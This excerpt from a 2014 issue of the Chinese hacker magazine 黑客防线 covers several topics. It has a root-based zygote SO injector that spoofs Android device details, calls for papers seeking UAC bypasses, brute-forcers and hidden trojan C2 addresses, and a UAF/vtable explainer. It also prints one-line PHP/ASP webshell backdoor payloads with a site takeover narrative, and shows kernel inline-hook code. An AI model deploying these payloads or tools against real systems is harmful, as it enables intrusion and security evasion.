
```makefile
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_LDLIBS += -L./libs -ldvm
LOCAL_MODULE := modifier
LOCAL_SRC_FILES := modifier.cpp
include $(BUILD_SHARED_LIBRARY)
```

使用 NDK 编译即可生成 libmodifier.so，由下面的注入器程序将其注入到目标进程执行，实现设备信息的修改。

## 中层注入器的实现

注入器的实现原理也不复杂，代码量比修改器稍大。安卓平台的共享库注入已经不是什么新鲜事了，因此这里不再重复讲解，请读者在网上学习“android so 注入”的内容，常见的手法是利用 ptrace 系统调用。这里我们假定读者已经获得或编写了实施 SO 注入的代码，其接口形式为：

```c
int inject_so(
    pid_t target_pid,            // 目标进程 PID
    const char *library_path,    // 要注入的 SO 文件
    const char *entry_function,  // 注入后调用的函数
    const char *parameter,       // 给函数传递参数
    size_t parameter_length      // 参数长度
);
```

现在我们开始编写注入器程序，它的命令行参数包括属性名和新属性值，所做的事情就是把前面的修改器注入到目标进程中。代码也很简单，请读者结合注释来理解。注入器的代码实现如下：

```c
// SO 注入接口
extern int inject_so(
    pid_t target_pid,
    const char *library_path,
    const char *entry_function,
    const char *parameter,
    size_t parameter_length
);

int main(int argc, char** argv)
{
    /* 参数含义：
     * argv[1]: SO 路径
     * argv[2]: 属性名
     * argv[3]: 属性值
     */
    pid_t target_pid;
    char* lib_path = NULL;
    char* parameter = NULL;

    // 使用 nm 命令获取 modify 函数在 libmodifier.so 中的名称
    // $ nm -D libmodifier.so | grep modify
    char entry[] = "_Z12modifyPc";

    if (argc < 4)
        return -1;

    lib_path = argv[1];
    parameter = malloc(strlen(argv[2]) + strlen(argv[3]) + 2);
    if (NULL == parameter)
        return -1;

    // 为修改器构造参数
    strcpy(parameter, argv[2]);
    strcat(parameter, "@");
    strcat(parameter, argv[3]);

    target_pid = find_pid_of("zygote");
    if (-1 == target_pid)
    {
        free(parameter);
        return -1;
    }

    if (-1 == inject_so(
            target_pid,
            lib_path,          // 修改器路径
            entry,             // 修改器接口
            parameter,         // 接口参数：属性名@属性值
            strlen(parameter)  // 参数长度
        ))
    {
        free(parameter);
        return -1;
    }

    free(parameter);
    return 0;
}
```

## 上层 Java 应用调用注入器

最后要做的事情就是在我们的 APP 中使用上面的功能模块了，这就更简单了，按需传递参数来调用注入器即可。不过要注意，注入需要请求 ROOT 权限，关键代码如下：

```java
// Java
Process process = null;
DataOutputStream os = null;

// 请求 ROOT 权限执行注入器
try {
    String cmd = "chmod 777 " + getPackageCodePath();
    process = Runtime.getRuntime().exec("su");
    os = new DataOutputStream(process.getOutputStream());
    os.writeBytes(cmd + "\n");

    String executable = "/data/local/tmp/injector";
    String libpath = " /data/local/tmp/libmodifier.so"; // 前面有空格
    cmd = executable + libpath;

    os.writeBytes(cmd + " BRAND 冒牌\n");              // 前面和中间均有空格
    os.writeBytes(cmd + " MANUFACTURER 山寨\n");
    os.writeBytes(cmd + " MODEL \"iPhone 6s\"\n");
    os.writeBytes(cmd + " VERSION#RELEASE 10.10\n");
    os.writeBytes("exit\n");
    os.flush();
    process.waitFor();
} catch (Exception e) {
    // return false;
} finally {
    try {
        if (os != null) {
            os.close();
        }
        process.destroy();
    } catch (Exception e) {
    }
}


```

如图 1 所示是小米 3，我们利用上面的方法把型号修改成 iPhone 6s，让 360 优化大师读取到了虚拟信息。
### 2014 年第 8 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 8 部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 4. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

### 5. 暴力破解 3389 远程桌面密码

- 要求：
- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

### 6. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求

10.10.0.0/16

10.10.3.0/24

10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求

可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

- Tomcat
- Weblogic
- Jboss
- Apache
- JOnAS
- WebSphere
- Lotus Server
- IIS(Webdav)
- Axis2
- Coldfusion
- Monkey HTTPD
- Nginx

- 3）针对目标 Web 服务器后台扫描

针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解

搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账号密码；
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

### 2014 年征稿启事

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

## 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

## Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

## 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 Exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、ShellCode 分析以及对各种平台的安全机制的研究。

## 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

## 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

## 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

## 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、ShellCode 编写、漏洞模式等。

## 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

## 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1. 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2. 在稿件末尾请注明您的账户名、银行账号、以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3. 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail: hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4. 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5. 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：
- 6. 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7. 投稿信箱及编辑联系：投稿信箱：675122680@qq.com、hadefence@gmail.com；编辑 QQ：675122680。

| 等级稿件 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

# 黑客防线

8

总第164期  
2014

网站全新改版，欢迎访问：http://www.hacker.com.cn
- 利用 UAF 漏洞攻击虚表原理浅析
- 攻破新浪通行证登录验证实现自动登录
- 自编调试器结束金山毒霸
- Android 系统进程保护浅析
- KeUserModeCallback 原理概述及其 InlineHook 程序设计
- Android 系统一次恶意软件攻防研究

## 《黑客防线》8 期文章目录

总第 164 期 2014 年

#### 漏洞攻防

- 利用 UAF 漏洞攻击虚表原理浅析（木羊）……3
- 一句话密码破解获取某网站 webshell（simeon）……7

#### 编程解析

- KeUserModeCallback 原理概述及其 InlineHook 程序设计（孙相辰）……10
- 攻破新浪通行证登录验证实现自动登录（耿靓）……15
- 网络分析器使用完全接触（xfeng）……20
- 自编调试器结束金山毒霸（李旭昇）……31

#### Android 远程监控技术

- Android 系统进程保护浅析（马智超）……35
- Android 系统一次恶意软件攻防研究（马智超）……38
- 2014 年第 9 期杂志特约选题征稿……43
- 2014 年征稿启事……46

## 利用 UAF 漏洞攻击虚表原理浅析

文/图 木羊

UAF 全名为 Use-After-Free，我们在《浏览器 Use After Free 漏洞的成因剖析及利用》这篇文章中介绍过这是浏览器常见的漏洞，并且对它的成因进行了说明。本文将不再描述漏洞本身，而转为讨论利用 UAF 类漏洞的方法。

UAF 类漏洞目前主流的利用方式为攻击虚表（V-Table）。漏洞利用通常的目的就是改变程序执行流，也即修改 EIP 寄存器中的数值。在常见的漏洞攻击中，改变程序执行流的方法有两种，一种为直接修改 EIP 的值，如堆喷射（heap spray），直接通过指令覆盖完成利用；另一种为间接修改 EIP 的值，如堆/栈溢出，它们并不产生指令数据，而是通过覆盖一些重要的数据结构，如返回地址或链表指针等，实现间接控制指令流。利用 UAF 漏洞攻击虚表属于后者，也即间接修改 EIP 中的值。

在介绍怎样攻击虚表之前，首先介绍什么是虚表？虚表是具有 OO（Object-Oriented，面向对象）性质高级编程语言所特有的数据结构。翻开任何一本介绍任何一门 OO 编程语言的教材，一定会有“继承”和“多态”等字样，它们是 OO 编程语言的特征，相信无须赘述，但学过编译原理的同学，请进一步思考，这些特征该如何实现？答案是通过虚表。

虚表，又叫虚函数表，具体的实现过程可以写一篇论文和若干艰涩的名词，但总会让人觉得有点隔靴搔痒。这里我们通过反汇编的方法，直接通过调试器看看虚表是怎样运作的。首先写下实验代码：

```cpp
class OBJ
{
public:
    virtual void tstFunc() {}
};

class TSTOBJ : public OBJ
{
public:
    void tstFunc()
    {
        MessageBox(0, 0, 0, 0);
    }
};

main()
{
    OBJ *tst = new TSTOBJ();
    tst->tstFunc();
}


```

代码简洁得近乎丑陋，要是我做项目经理，看到手下这种命名方式，一定会毫不犹豫打出翔来，不过在这里言简意赅正是我要的效果，主要实现了两个类，一个是父类 OBJ，它有一个虚函数 tstFunc——看到“虚函数”三个字，联想到“虚表，又叫虚函数表”，是不是该有眼前一亮的感觉？另一个是继承 OBJ 类的子类 TSTOBJ，实现了这个虚函数 tstFunc，内容是一条参数全为 0 的 MessageBox 调用，这样写是有深意的，请先记住这一点。

最后是一个 main 函数，用来测试这两个类，有一点需要关注的，就是 `OBJ *tst = new TSTOBJ()` 这一句，用的是 OBJ 的类指针，指向 TSTOBJ 类的实例。这一句很重要，别看写虚表实现的论文大都博征旁引侃侃而谈，但往往忽略了编译器进化到现代，很多理论上存在的东西实际中是会被优化掉的（哪怕选择的是“不优化”的编译选项），半天找不到虚表是纸上谈兵者非常容易犯的错误，必须照这样写才能出现虚表。

现在掏出 IDA，载入刚才编译好的程序。按照习惯，从 main 函数讲起，main 函数反汇编代码如图 1 所示：
图1

IDA 有很强的标记功能，是逆向工程的利器，这里为了让同学们更好地看到原始面貌，把我自己的标记全部删掉，只留最原始的。可以看到，IDA 已经识别出了 new 操作符，在它下面两行，ebp+var_18 就是 OBJ 的类指针。记好这点，往下看 jz 分支判断指令后的代码（图2）：
图2

这个分支判断稍微回溯，就能看出判断的是 new 操作符是否成功，从程序层面来看也即内存申请是否成功，成功往左，不成功往右。内存管理的坑就不跳了，直接默认认为成功（通常情况下也是如此），看左边。首先是对 ecx 寄存器以 OBJ 的类指针赋值，这是一个标志性的操作。在 OO 编程语言编译之后，看到 ecx 寄存器，相当于看到了 this 操作符，指向的是类实例的内存地址，也即语法上的类本身。这种编译模板似乎已经成为一种约定俗成。

往下是一条 CALL 指令，这里相当于“构造函数”，是个打引号的构造函数，不是语法层面的构造函数，而是编译器层面的构造函数。学过 OO 编程语言的同学一定知道构造函数是类实例化后第一个调用的函数，负责完成一些初始化工作，但可以缺省，也即为空，什么也不干。这只是高级程序语言的“语法糖”，实际上，构造函数是一定不为空的，从编译的角度具体来说，构造函数是会固定完成一些工作，如果用户缺省，那么构造工作也就到此为止，如果写了，则只是后续加上。而固定完成的这一些工作，其中就有初始化虚表。

有了一些基本理念，现在可以跟进这个 CALL，看看带引号的“构造函数”（图3）：

```asm
push    ebp
mov     ebp, esp
push    ecx
mov     [ebp+var_4], ecx
mov     ecx, [ebp+var_4]
call    sub_4010C0
mov     eax, [ebp+var_4]
mov     dword ptr [eax], offset off_4060B8
mov     eax, [ebp+var_4]
mov     esp, ebp
pop     ebp
retn


```

图3

看这段反汇编代码时，请随时记好，ecx 相当于 this，指向 new 操作符申请的内存地址，也是类实例所在的地址。这段代码有一系列赋值操作，但核心的内容可以简化为 `mov eax, ecx`，接着只需要看 `mov dword ptr [eax], 0x4060B8`。这一句，可以理解为类的实例化。

想看拗口的术语可以翻翻相关文章，我尝试用好理解的话说一遍：类，可以理解为一份“母版”，具体来说，是虚表的“母版”，通过一个静态的数据结构保存，从实现的角度来看，也可以理解成一个静态的“全局变量”。而所有的类实例，则是这份母版的“拷贝”。类实例化的过程，实际上可以理解为一个“复制”的过程，将这个静态的全局变量，复制到由 new 操作符所申请得到的内存空间中。

对应到本例，就是将 0x4060B8 处的静态全局变量，复制到 eax，也即 ecx，也即 this 所指向的内存空间中。为了动态演示这个过程，我们用 OD 调试一遍，可以看到 0x4060B8 的内存如下（图4）：

| 地址 | 数据（DWORD/字节） |
|---|---|
| 004060B8 | A0 10 40 00 E0 10 40 00 FF FF FF FF 96 15 ... |
| 004060C8 | AA 15 40 00 00 00 00 00 FF FF FF FF C7 1A ... |
| 004060D8 | D1 1A 40 00 00 00 00 00 FF FF FF FF 00 00 ... |
| 004060E8 | 4D 1C 40 00 00 00 00 00 2B 1C 40 00 35 1C ... |
| 004060F8 | FF FF FF FF 7D 1E 40 00 81 1E 40 00 00 00 ... |
| 00406108 | FF FF FF FF DF 1E 40 00 E8 1E 40 00 00 00 ... |
| 00406118 | FF FF FF FF 00 00 00 00 DD 1F 40 00 00 00 ... |

图4

看到顶头的 DWORD 是一段地址，为 0x004010A0。这是什么？找到这个地址（图5）：
图5

还记得前面那条“有深意”的 MessageBox 调用吗？0x004010A0 就是它，准确来说，是 tstFunc 方法，是 TSTOBJ 类里的实例方法。看到这里，相信有的同学已经感觉到了什么，似乎虚表就像一条云里的龙，在前面的介绍里时隐时现。不着急，我们最后看一看类方法的调用（图6）：
图6

这一段是接着图2的跳转，这段代码纷纷乱乱，其实核心可以简写为两条：

- 1. `mov eax, [ecx]`
- 2. `call [eax]`

ecx 前面已经反复强调过，指向内对象的内存空间，相当于 this。而第二句的调用，则相当于 call 了 this 指向的内存空间中的第一个 dword，它的值是一个函数地址，也即 this 所指向的地址开头为函数指针，这就是虚表。

现在，我们可以捋顺一下了。

首先，是虚表的内容，毫无疑问，保存的是虚函数的地址，也即函数指针。其次，是虚表的地址，它一定位于类实例的数据结构中，准确来说是最前部，而类实例的内存地址由 new 操作符确定，从编译器的角度来看，这个地址保存在 ecx 寄存器中。最后，是虚表的使用，在调用某个类实例的方法时，会读取虚表中的函数指针，三点至此串成一线。

在这一篇里，我们介绍了虚表。那么，既然调用方法实际是读取虚表中的函数指针，是否可以通过修改虚表，从而实现间接控制执行流？当然可以！具体方法及原理，我将在后一篇文章进行介绍。

## 一句话密码破解获取某网站 webshell

文/图 simeon

一句话后门是 Web 渗透中用得最多的一个必备工具，流行一句话后门分为 Asp、Asp.net、Jsp 和 Php 四种类型。一句话后门利用的实质就是通过执行 SQL 语句、添加或者更改字段内容等操作，在数据库表或者相应字段插入 `"<%execute request("pass")%>"`、`"<%eval request("pass")%>"`、`"<?php eval($_POST[pass])?>"`、`"<?php @eval($_POST[pass])?>"`、`"<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"pass\"],\"unsafe\");%>"` 等代码，然后通过中国菜刀、lake 一句话后门客户端等工具进行连接。只需要知道上述代码被插入到的具体文件以及连接密码，即可进行 WebShell 的一些操作，它是基于 B/S 结构的架构。（一句话后门是黑客入侵成功的标志和常用后门，在渗透过程中如果发现有一句话后门，那么可以通过对一句话后门进行破解，从而获得网站的权限。）

### 获取后台权限

应好友邀请，对某网站进行安全检测，通过 wvs 等扫描工具对目标站点进行扫描，但没有发现可以利用的明显漏洞，通过社工，成功猜测出网站管理员 admin 的密码，如图 1 所示，成功进入后台。
图 1 登陆 WordPress 后台

### 尝试提权

获取管理员权限后，通过查看和编辑页面内容，在页面内容中插入一句话后门代码，如图 2 所示，无法保存修改后的文件，该文件以及文件夹无写权限。
图2 尝试提权往网站写入文件

在上传图像模块选择图像文件进行上传，如图3所示，无法上传文件。跟前面一样，文件夹设置了权限，看来通过 WordPress 常见提权方法是无法成功的。
图3 无法上传文件

## 列目录以及文件漏洞

该目标站点还存在列目录以及文件漏洞，如图4所示，可以查看图像文件等。在 images 文件夹下发现有 gif.php 文件，通过浏览器浏览发现该文件可以访问，同时该文件大小为“27字节”，为一句话后门的可能性极高。
图4 列目录以及文件漏洞

## 一句话密码破解

打开“ASP PHP ASPX 一句话密码暴力猜解工具”，如图5所示，在地址中输入目标网站发现的一句话后门文件的具体地址“http://www.somesite.com/images/gif.php”，选择全部字符，设置位数为“3”，脚本选择“php”，单击“破解”按钮，开始对一句话后门进行破解。
图5 对一句话后门密码进行破解

## 获取目标 webshell 权限

在菜刀工具中新增加一个后门记录，输入地址和密码，如图6所示，成功获取目标站点的权限。
图6 获取目标 webshell 权限

## 总结

- 1）本次渗透熟悉和掌握了 WordPress 管理员提权的方法，在获取管理员的情况下，可以通过修改页面文件插入一句话后门直接获取 webshell，还可以直接上传后门文件获取 webshell。
- 2）在权限设置严格的情况下，可以通过其他漏洞来获取权限，比如文件名称和目录信息泄露等。在本例中找到早期入侵者留下的 shell，通过一句话后门破解成功获取网站权限。

（完）

## KeUserModeCallback 原理概述及其 Inline Hook 程序设计

文/图 弹相辰

在前面我们讨论 360 安全卫士挂钩的时候，我发现了这样一个 IAT HOOK：“ntoskrnl.exe:KeUserModeCallback[win32k.sys]”。360 既然这样做，就有它的道理。本文就和大家一起讨论一下 KeUserModeCallback 的原理，之后再看看我们如何开发出 Inline Hook 程序。

## Windows 子系统及 KeUserModeCallback 原理概述

Windows 子系统是 Windows 系统的组成部分，主要作用是为应用程序提供一个图形用户界面（GUI）环境，其中内核模块 win32k.sys 发挥了重要作用，win32k.sys 包含窗口管理器和 GDI 两大部分。到这里大家肯定想到了 360 的 IAT HOOK 应该与 GUI 相关功能有关。

我们对 SetWindowsHookEx 这个 API 都相当熟悉，它与 CallNextHookEx、UnhookWindowsHookEx 可以组成钩子链，在 Windows 消息到达目标窗口之前处理它，以达到截取消息的目的。由此可知，钩子函数是用户模式函数，这就涉及了一个从内核模式调用用户模式函数的问题，这时就用到了 KeUserModeCallback 函数。Windows 子系统通过调用 KeUserModeCallback 来指定钩子函数。通过反汇编 KeUserModeCallback 函数及参考了 WRK 代码，发现该函数是这样运行的：先用 KiGetUserModeStackAddress 来获得一个用户模式堆栈地址，然后赋值，再调用 KiCallUserMode、KiServiceExit 回到用户模式，调用 ntdll.dll 中的 KeUserCallbackDispatcher 来指定回调函数，钩子执行完成后再回到 KeUserCallbackDispatcher，而后返回内核模式，从而回到内核中的 KeUserModeCallback 函数。在此就不占用篇幅了，感兴趣的朋友可以查看我在程序中附带的文档。

## KeUserModeCallback Inline Hook 程序设计

在黑防的历史上，之前曾经有高手在文章中称，挂钩 KeUserModeCallback 函数有两种方式：IAT HOOK（QQ 电脑管家，现腾讯电脑管家）、Inline HOOK（360 保险箱，现 360 游戏保险箱），并给出了详细的 IAT HOOK 代码及功能演示。现在我们看到 360 安全卫士采用的是 IAT HOOK。为了开阔思路，本文专注于开发 Inline Hook 程序。下面是用 WinDbg 查看的 360 安全卫士 IAT HOOK 之处：

```text
lkd> u win32k!_imp__KeUserModeCallback
win32k!_imp__KeUserModeCallback:
bf98e254 b40e              mov        ah,0Eh
bf98e256 9b                wait
bf98e257 f9                stc

KeUserModeCallback 定义如下：
KeUserModeCallback (
    IN ULONG ApiNumber,
    IN PVOID InputBuffer,
    IN ULONG InputLength,
    OUT PVOID *OutputBuffer,
    IN PULONG OutputLength
)
```

下面开始着手我们的程序，先调试一下 KeUserModeCallback 函数，仅看头几个字节：

```asm
lkd> u KeUserModeCallback
nt!KeUserModeCallback:
80598058 6a30                push    30h
8059805a 68f89f4d80          push    offset nt!KiDebugRegisterContextOffsets+0x24 (804d9ff8)
8059805f e8cc0efaff          call    nt!_SEH_prolog (80538f30)
......
```

我们就选择开始两句“push x、push xxxx”作为目标，不用经常使用的 jmp 方法，改用“push xxxx、ret、nop”的组合，大家可以比较一下，字节数是相同的，请看程序及注释：

```c
NTSTATUS InlineHook()
{
    NTSTATUS Status = STATUS_SUCCESS;
    UNICODE_STRING ustrFunName = RTL_CONSTANT_STRING(L"KeUserModeCallback");
    PVOID fnKeUserModeCallback = MmGetSystemRoutineAddress(&ustrFunName);//获得 KeUserModeCallback 地址

    (ULONG)fnKeUserModeCallback03fun = *(PULONG)((ULONG)fnKeUserModeCallback+0x03);//保存 KeUserModeCallback 偏移 0x03 处的值
    (ULONG)fnKeUserModeCallback08fun = *(PULONG)((ULONG)fnKeUserModeCallback+0x08);//保存 KeUserModeCallback 偏移 0x08 处的值
    (ULONG)fnKeUserModeCallback07 = (ULONG)((ULONG)fnKeUserModeCallback+0x07);//保存 KeUserModeCallback 偏移 0x07 处的地址

    UN_PROTECT();//可写，开始赋值
    *(PULONG)((ULONG)fnKeUserModeCallback) = 0x68;//在偏移 0 处赋值：push
    *(PULONG)((ULONG)fnKeUserModeCallback+0x01) = (ULONG)myhook;//在偏移 0x01 处赋值：myhook 函数的地址
    *(PULONG)((ULONG)fnKeUserModeCallback+0x05) = 0xc3;//在偏移 0x05 处赋值：ret
    *(PULONG)((ULONG)fnKeUserModeCallback+0x06) = 0x90;//在偏移 0x06 处赋值：nop
    *(PULONG)((ULONG)fnKeUserModeCallback+0x07) = 0xe8;//以下两句为赋系统原值
    *(PULONG)((ULONG)fnKeUserModeCallback+0x08) = (ULONG)fnKeUserModeCallback08fun;
    RE_PROTECT();//关闭可写

    return Status;
}
```

同理，UnInlineHook 函数内容就是赋系统原值，如下：

```c
NTSTATUS UnInlineHook()
{
    NTSTATUS Status = STATUS_SUCCESS;
    UNICODE_STRING ustrFunName= RTL_CONSTANT_STRING(L"KeUserModeCallback");
    PVOID fnKeUserModeCallback = MmGetSystemRoutineAddress(&ustrFunName);
    UN_PROTECT();
    *(PULONG)((ULONG)fnKeUserModeCallback) = 0x6a;
    *(PULONG)((ULONG)fnKeUserModeCallback+0x01) = 0x30;
    *(PULONG)((ULONG)fnKeUserModeCallback+0x02) = 0x68;
    *(PULONG)((ULONG)fnKeUserModeCallback+0x03) =
        (ULONG)fnKeUserModeCallback03fun;
    *(PULONG)((ULONG)fnKeUserModeCallback+0x07) = 0xe8;
    *(PULONG)((ULONG)fnKeUserModeCallback+0x08) =
        (ULONG)fnKeUserModeCallback08fun;
    RE_PROTECT();
    return Status;
}
```

对于 myhook 函数，首要的考虑是必须保持原函数的值，然后再跳回 HOOK 点继续执行 KeUserModeCallback 函数。然后就是实现相应的功能，否则 HOOK 了也没意义。要实现功能就要获得 KeUserModeCallback 相应参数的地址。

```c
__declspec(naked) void myhook()//裸函数
{
    _asm push eax;//eax 入栈
    _asm mov eax,DWORD PTR [esp+4];//获得第一个参数
    _asm mov ApiNumber,eax;//赋给变量
    _asm pop eax;//eax 出栈，保持平衡。其他参数赋值以此类推
    Function();//阻止陌生 DLL 加载的功能函数
    _asm push 0x30;//原函数值
    _asm push fnKeUserModeCallback03fun; //原函数值
    _asm push fnKeUserModeCallback07;
    _asm ret;//这两句是跳回 KeUserModeCallback 偏移 0x07 地址处
}


```

